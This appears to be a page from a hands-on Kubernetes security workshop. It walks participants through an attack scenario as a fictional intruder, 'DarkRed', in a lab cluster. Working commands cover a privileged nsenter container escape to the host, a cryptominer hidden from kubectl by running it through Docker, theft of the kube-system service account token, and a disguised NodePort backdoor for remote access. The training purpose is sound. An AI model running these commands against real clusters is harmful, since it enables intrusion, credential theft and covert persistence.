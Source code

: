 # Persistence: Scenario 2 Attack

## Backstory

### Name: __DarkRed__

* Highly-Skilled
* Sells Exfiltrated Data for $$
* Evades detection and employs persistence
* Uses env-specific tooling
* Creates bespoke payloads
* Expert Kubernetes knowledge

### Motivations

* __Red__ notices that the website is gone and the crypto-miners have stopped reporting in.
* __Red__ asks __DarkRed__ for help trying to get back into the Kubernetes cluster and gives __DarkRed__ the IP address.
* __Red__ will split the revenue if __DarkRed__ can get the miners back up and running.

## Initial Foothold

Seeing that the URL included port `31337` and that __Red__ said it was a Kubernetes `cluster`, it was likely to be exposed via a `NodePort` `service`. With this information she has a feeling that more `services` might still be exposed to the web this way. __DarkRed__ starts with indirect enumeration, such as searching on shodan.io, and follows up with direct portscanning via `nmap`.

To see what she'd see, from the Cloud Shell Terminal, scan the hundred ports around 31337 using a command similar to "nmap -sT -A -p 31300-31399 -T4 -n -v -Pn your-ip-address-goes-here". Be absolutely sure to scan your assigned IP address.

Your Cloud Shell has a little script to help:
```console
attack-2-helper.sh
```

This scan confirms __DarkRed's__ suspicion that more services were present in this `cluster`. They all look like webservers, so explore them briefly with your browser.

__DarkRed__ notices that two of the services look like the company's main product, but the third is a juicy ops dashboard. Her intuition says that the dashboard is probably not maintained as carefully as the real product, and she focuses her attention there. Using tools such as `dirb`, `sqlmap`, `nikto`, and `burp`, she explores the dashboard, finds a vulnerability in a common web-development library, and exploits it to gain remote code execution on the server. For convenience, __DarkRed__ installs a webshell for further exploration.

Now, let's become __DarkRed__ and leverage this new access:

## Deploying Miners

The webshell can be found at <a href="http://your-ip:31336/webshell/" target="_blank">http://your-ip:31336/webshell/</a>, and uses your workshop credentials as before.

Your Cloud Shell has a little script to help:
```console
attack-2-helper.sh
```

Run a few commands to make sure it's working and gather some basic information:

```console
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

Review the information. Check for Kubernetes access, and find the limits of our permissions:

```console
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl; chmod 555 kubectl
kubectl get pods
kubectl get pods --all-namespaces
kubectl get nodes
kubectl auth can-i --list
```

Now that we've reviewed the basic limits of our access, let's see if we can take over the host. If we can, that will give us many more options to fulfill our nefarious whims.

Using <a href="https://twitter.com/mauilion/status/1129468485480751104" target="_blank">a neat trick from twitter</a>, let's attempt to deploy a container that gives us full host access:

```console
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Let's unpack this a little bit: The kubectl run gets us a pod with a container, but the --overrides argument makes it special.

First we see `"hostPID": true`, which breaks down the most fundamental isolation of containers, letting us see all processes as if we were on the host.

Next, we use the nsenter command to switch to a different `mount` namespace. Which one? Whichever one init (pid 1) is running in, since that's guaranteed to be the host `mount` namespace! The result is similar to doing a `HostPath` mount and `chroot`-ing into it, but this works at a lower level, breaking down the `mount` namespace isolation completely. The `privileged` security context is necessary to prevent a permissions error accessing `/proc/1/ns/mnt`.

Convince yourself that you're really on the host, using some of our earlier enumeration commands:

```console
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

It's been said that "if you have to SSH into a server for troubleshooting, you're doing Kubernetes wrong", so it's unlikely that cluster administrators are SSHing into nodes and running commands like `docker ps` directly.  By deploying our bitcoinero container via Docker on the host, it will show up in a `docker ps` listing.  However, Docker is managing the container directly and not the `kubelet`, so the malicious container _won't show up in a `kubectl get pods`_ listing.  Without additional detection capabilities, it's likely that the cluster administrator will never even notice.

First we verify Docker is working as expected, then deploy our cryptominer, and validate it seems to be running.

```console
docker ps
```

```console
docker run -d securekubernetes/bitcoinero
```

```console
docker container ls
```

## Digging In
Now that __DarkRed__ has fulfilled her end of the agreement and the miners are reporting in again, she decides to explore the cluster. With root access to the host, it's easy to explore any and all of the containers. Inspecting the production web app gives access to a customer database that may be useful later -- she grabs a copy of it for "safekeeping".

It would be nice to leave a backdoor for future access. Let's become __DarkRed__ again and see what we can do:

First, let's steal the kubelet's client certificate, and check to see if it has hightened permissions:

```console
ps -ef | grep kubelet
```

Note the path to the kubelet's kubeconfig file: /var/lib/kubelet/kubeconfig

```console
kubectl --kubeconfig /var/lib/kubelet/kubeconfig auth can-i create pod -n kube-system
```

Looks good! Let's try it:

```console
kubectl --kubeconfig /var/lib/kubelet/kubeconfig run testing --image=busybox --rm -i -t -n kube-system --command echo "success"
```

Oh no! This isn't going to work. Let's try stealing the default kube-system service account token and check those permissions. We'll need to do a little UNIX work to find them, since we're not exactly using the public API.


```console
TOKEN=$(for i in `mount | sed -n '/secret/ s/^tmpfs on \(.*default.*\) type tmpfs.*$/\1\/namespace/p'`; do if [ `cat $i` = 'kube-system' ]; then cat `echo $i | sed 's/.namespace$/\/token/'`; break; fi; done)
echo -e "\n\nYou'll want to copy this for later:\n\nTOKEN=\"$TOKEN\""
```

```console
kubectl --token "$TOKEN" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT auth can-i get secrets --all-namespaces
```
Yes, this looks better! We save that token in our PalmPilot for later use, and publish a NodePort that will let us access the cluster remotely in the future:

```console
cat <<EOF | kubectl --token "$TOKEN" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT apply -f -
apiVersion: v1
kind: Service
metadata:
  name: istio-mgmt
  namespace: kube-system
spec:
  type: NodePort
  ports:
    - protocol: TCP
      nodePort: 31313
      port: 31313
      targetPort: $KUBERNETES_SERVICE_PORT
---
apiVersion: v1
kind: Endpoints
metadata:
  name: istio-mgmt
  namespace: kube-system
subsets:
  - addresses:
      - ip: `sed -n 's/^  *server: https:\/\///p' /var/lib/kubelet/kubeconfig`
    ports:
      - port: $KUBERNETES_SERVICE_PORT
EOF
```

Press control-d to exit (and delete) the `r00t` pod.

If you like, you may validate that external access is working, using cloud shell:

```console
if [ -z "$TOKEN" ]; then
  echo -e "\n\nPlease paste in the TOKEN=\"...\" line and try again."
else
  EXTERNAL_IP=`gcloud compute instances list --format json | jq '.[0]["networkInterfaces"][0]["accessConfigs"][0]["natIP"]' | sed 's/"//g'`
  kubectl --token "$TOKEN" --insecure-skip-tls-verify --server "https://${EXTERNAL_IP}:31313" get pods --all-namespaces
fi
```

Now we have remote Kubernetes access, and our associate's bitcoinero containers are invisible. All in a day's work.
